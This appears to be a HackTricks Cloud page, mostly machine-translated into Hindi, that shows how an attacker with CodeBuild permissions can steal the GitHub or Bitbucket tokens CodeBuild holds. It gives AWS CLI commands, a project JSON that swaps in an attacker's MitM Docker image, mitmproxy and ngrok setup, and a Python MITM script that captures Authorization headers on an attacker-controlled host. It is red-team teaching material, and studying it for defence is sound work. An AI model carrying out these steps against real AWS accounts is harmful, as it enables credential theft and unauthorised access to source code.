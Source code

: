 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket कॉन्फ़िगर किए गए टोकन को पुनर्प्राप्त करें

पहले, जांचें कि क्या कोई स्रोत क्रेडेंशियल्स कॉन्फ़िगर किए गए हैं जिन्हें आप लीक कर सकते हैं:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

यदि आप पाते हैं कि उदाहरण के लिए Github के लिए प्रमाणीकरण खाते में सेट है, तो आप **exfiltrate** उस **access** (**GH token या OAuth token**) को प्राप्त कर सकते हैं, जिससे Codebuild को **एक विशिष्ट docker image** का उपयोग करने के लिए कहा जा सके ताकि प्रोजेक्ट का निर्माण किया जा सके।

इसके लिए आप **एक नया Codebuild प्रोजेक्ट** बना सकते हैं या **Docker image** सेट करने के लिए मौजूदा एक का **environment** बदल सकते हैं।

आप जो Docker image उपयोग कर सकते हैं वह है [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)। यह एक बहुत बुनियादी Docker image है जो **env variables `https_proxy`**, **`http_proxy`** और **`SSL_CERT_FILE`** सेट करेगा। यह आपको **`https_proxy`** और **`http_proxy`** में निर्दिष्ट होस्ट के अधिकांश ट्रैफ़िक को इंटरसेप्ट करने की अनुमति देगा और **`SSL_CERT_FILE`** में निर्दिष्ट SSL CERT पर भरोसा करेगा।

1. **Create & Upload your own Docker MitM image**
* रिपॉजिटरी के निर्देशों का पालन करें ताकि आप अपने प्रॉक्सी IP पते को सेट कर सकें और अपना SSL cert सेट कर सकें और **docker image बनाएं**।
* **`http_proxy`** सेट न करें ताकि मेटाडेटा एंडपॉइंट के लिए अनुरोधों को इंटरसेप्ट न किया जा सके।
* आप **`ngrok`** का उपयोग कर सकते हैं जैसे `ngrok tcp 4444` अपने होस्ट के लिए प्रॉक्सी सेट करने के लिए।
* एक बार जब आपके पास Docker image बन जाए, तो **इसे एक सार्वजनिक रिपॉजिटरी** (Dockerhub, ECR...) में **अपलोड करें**।
2. **Set the environment**
* **एक नया Codebuild प्रोजेक्ट** बनाएं या मौजूदा एक के environment को **संशोधित** करें।
* प्रोजेक्ट को **पूर्व में उत्पन्न Docker image** का उपयोग करने के लिए सेट करें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* जैसा कि **Github repo** में संकेतित किया गया है, आप कुछ ऐसा उपयोग कर सकते हैं:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy संस्करण 9.0.1 का उपयोग किया गया था**, रिपोर्ट किया गया कि संस्करण 10 के साथ यह काम नहीं कर सकता।
{% endhint %}

4. **बिल्ड चलाएँ और क्रेडेंशियल्स कैप्चर करें**

*   आप **Authorization** हेडर में टोकन देख सकते हैं:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

यह aws cli से कुछ इस तरह किया जा सकता है

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP प्रोटोकॉल के माध्यम से~~

{% hint style="success" %}
**यह कमजोरियों को AWS ने 2023 के फरवरी के 20वें सप्ताह में किसी समय (मुझे लगता है कि शुक्रवार को) ठीक किया। इसलिए एक हमलावर इसका दुरुपयोग नहीं कर सकता :)**
{% endhint %}

एक हमलावर जिसके पास **CodeBuild में उच्च अनुमतियाँ हैं, वह Github/Bitbucket टोकन लीक कर सकता है** जो कॉन्फ़िगर किया गया है या यदि अनुमतियाँ OAuth के माध्यम से कॉन्फ़िगर की गई हैं, तो **कोड तक पहुँचने के लिए उपयोग किया जाने वाला अस्थायी OAuth टोकन**।

* एक हमलावर **http\_proxy** और **https\_proxy** पर्यावरण चर को CodeBuild प्रोजेक्ट में जोड़ सकता है जो उसकी मशीन की ओर इशारा करता है (उदाहरण के लिए `http://5.tcp.eu.ngrok.io:14972`)।

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* फिर, गिटहब रेपो का URL HTTP का उपयोग करने के लिए बदलें, HTTPS के बजाय, उदाहरण के लिए: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* फिर, [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) से बुनियादी उदाहरण को प्रॉक्सी चर (http\_proxy और https\_proxy) द्वारा इंगित किए गए पोर्ट में चलाएँ।
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* अंत में, **प्रोजेक्ट बनाएं** पर क्लिक करें, **प्रमाणपत्र** **स्पष्ट पाठ** (base64) में mitm पोर्ट पर **भेजे जाएंगे**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
अब एक हमलावर अपने मशीन से टोकन का उपयोग कर सकेगा, सभी विशेषाधिकारों की सूची बना सकेगा और (दुरुपयोग) कोडबिल्ड सेवा का सीधे उपयोग करने की तुलना में आसान तरीके से कर सकेगा।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो करें**।
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
